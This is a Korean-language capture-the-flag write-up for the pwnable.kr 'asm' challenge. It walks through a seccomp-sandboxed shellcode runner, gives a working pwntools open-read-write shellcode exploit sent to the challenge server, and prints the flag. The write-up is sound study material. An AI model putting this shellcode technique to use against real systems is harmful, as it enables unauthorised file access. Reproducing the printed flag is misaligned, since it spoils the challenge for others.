

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스를 확인하면 mmap을 이용해서 메모리를 할당하는 데, 0x41414000에 0x1000만큼 할당하고REAR/WRITE/EXEC 권한을 부여한다.

그 다음 0x90으로 초기화한 뒤 stub을 복사한다.

```cpp
... 생략 ...
        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));
... 생략 ...
```

그 다음 stub 뒤 주소부터 쉘코드를 넣을 수 있다.

```cpp
... 생략 ...
        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);
... 생략 ...
```

stub이 뭐하는 놈인지 먼저 확인해보자. 우선, stub의 주소는 0x2020c0임을 알 수 있고, 0x2020c0을 보면 레지스터들의 값들을 자기 자신과 xor한다.

즉, 모든 값들을 0으로 초기화한다.

```sh
asm@pwnable:~$ gdb -q asm
Reading symbols from asm...(no debugging symbols found)...done.
(gdb) disas main
... 생략 ...
0x0000000000000e24 <+192>:   lea    0x201295(%rip),%rax        # 0x2020c0 <stub>
... 생략 ...
(gdb) disas 0x2020c0
Dump of assembler code for function stub:
   0x00000000002020c0 <+0>:     xor    %rax,%rax
   0x00000000002020c3 <+3>:     xor    %rbx,%rbx
   0x00000000002020c6 <+6>:     xor    %rcx,%rcx
   0x00000000002020c9 <+9>:     xor    %rdx,%rdx
   0x00000000002020cc <+12>:    xor    %rsi,%rsi
   0x00000000002020cf <+15>:    xor    %rdi,%rdi
   0x00000000002020d2 <+18>:    xor    %rbp,%rbp
   0x00000000002020d5 <+21>:    xor    %r8,%r8
   0x00000000002020d8 <+24>:    xor    %r9,%r9
   0x00000000002020db <+27>:    xor    %r10,%r10
   0x00000000002020de <+30>:    xor    %r11,%r11
   0x00000000002020e1 <+33>:    xor    %r12,%r12
   0x00000000002020e4 <+36>:    xor    %r13,%r13
   0x00000000002020e7 <+39>:    xor    %r14,%r14
   0x00000000002020ea <+42>:    xor    %r15,%r15
   0x00000000002020ed <+45>:    .byte 0x0
End of assembler dump.
```

이후 chroot함수를 이용하여 디렉토리를 변경한 후 sandbox함수를 호출하는데, sandbox함수에서 아래와 같은 함수만 호출할 수 있도록 환경이 된다.

> [seccomp](https://ko.wikipedia.org/wiki/Seccomp)

```cpp
... 생략 ...
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
... 생략 ...
```

shellcode를 간단하게 생성하기 위해 pwntools를 설치하자.

```sh
root@ubuntu:~# apt -y install python3-pip binutils
root@ubuntu:~# pip3 install pip setuptools
root@ubuntu:~# pip3 install pwntools
```

FLAG를 획득하자.

```python
from pwn import *
context(arch='amd64', os='linux')

file = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
payload = ''
payload += shellcraft.open(file, 'O_RDONLY')
payload += shellcraft.read('rax', 'rsp', 100)
payload += shellcraft.write(1, 'rsp', 100)
payload += shellcraft.exit()

r = remote('pwnable.kr', 9026)
r.recvuntil('give me your x64 shellcode: ')
r.sendline(asm(payload))
r.interactive()

[Output]
... 생략 ...
[*] Switching to interactive mode
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooo
... 생략 ...
```


# **FLAG**

**Mak1ng_shelLcodE_i5_veRy_eaSy**